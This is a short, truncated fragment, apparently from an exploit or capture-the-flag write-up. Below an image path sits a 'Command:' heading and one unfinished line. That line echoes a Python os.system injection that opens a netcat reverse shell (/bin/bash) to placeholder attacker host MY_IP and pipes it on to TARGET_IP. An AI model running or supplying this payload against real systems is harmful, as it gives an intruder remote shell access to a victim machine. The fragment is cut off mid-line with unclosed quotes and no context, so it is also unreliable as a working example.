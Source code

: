 ## Command:

#### echo "__import__('os').system('nc -e /bin/bash MY_IP MY_PORT | nc TARGET_IP TARGET_PORT
